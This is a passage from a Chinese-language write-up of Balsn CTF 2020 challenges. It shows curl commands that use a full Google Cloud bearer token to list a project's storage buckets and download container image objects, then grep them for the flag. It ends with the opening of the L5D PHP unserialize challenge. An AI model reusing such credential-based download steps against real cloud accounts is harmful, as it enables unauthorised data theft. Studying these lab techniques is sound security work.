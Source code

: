 

阅读[文档](https://cloud.google.com/storage/docs)来了解下载存储在服务器上的数据



```shell
#查询存储分区：
curl -X GET -H "Authorization: Bearer ya29.c.KpcB5QezRL_BHhcBssfoC6rViLqbqi72L687AYtNLcDVGO2vf__MDx-Z-4X-j1Tk5iXmMZfpUvEpzwlIfl4RctiaZQa_mODL0KI5DqdyMic7E8WBGSi1GB4ViTLf-u8P155FfcteCoA_PVkWRt6phv_W_iFRsooJBLW7aRllZwP9Dx2-G1UVixDww-GUzLRbBN2CqT7HKp1AKA" \
  "https://storage.googleapis.com/storage/v1/b?project=balsn-ctf-2020-tpc"
  
#查询存储对象
curl -X GET -H "Authorization: Bearer ya29.c.KpcB5QezRL_BHhcBssfoC6rViLqbqi72L687AYtNLcDVGO2vf__MDx-Z-4X-j1Tk5iXmMZfpUvEpzwlIfl4RctiaZQa_mODL0KI5DqdyMic7E8WBGSi1GB4ViTLf-u8P155FfcteCoA_PVkWRt6phv_W_iFRsooJBLW7aRllZwP9Dx2-G1UVixDww-GUzLRbBN2CqT7HKp1AKA" \
  "https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o"

#下载对象：
curl -X GET -o "/tmp/obj1" -H "Authorization: Bearer ya29.c.KpcB5QezRL_BHhcBssfoC6rViLqbqi72L687AYtNLcDVGO2vf__MDx-Z-4X-j1Tk5iXmMZfpUvEpzwlIfl4RctiaZQa_mODL0KI5DqdyMic7E8WBGSi1GB4ViTLf-u8P155FfcteCoA_PVkWRt6phv_W_iFRsooJBLW7aRllZwP9Dx2-G1UVixDww-GUzLRbBN2CqT7HKp1AKA" \
  "https://www.googleapis.com/download/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o/containers%2Fimages%2Fsha256:1c2e7c9e95b20a8dde6674890b722779c5a797d9d5968a9fa3a0ef89cd90f9b4?generation=1605158579380048&alt=media"
 
```

将所有对象下载下来后`cat * | grep -a flag`
获得flag路径：`/opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt`

BALSN{What_permissions_does_the_service_account_need}



## L5D

题目描述

>「Taking L5D was a profound experience, one of the most important things in my life.」
>
>Try this new Unserialize-Oriented Programming System a.k.a. L5D !
>
>http://l5d.balsnctf.com:12345/index.php
>
>PHP Version: 7.0.33
>
>Author: kaibro

题目提供了源码，阅读后发现以下可能作为关键点的地方：



变量覆盖：



![upload_d5bb50d4d715027a3e5b2fc532cc8e9c](https://raw.githubusercontent.com/Explorersss/photo/master/20201116142917.jpg)
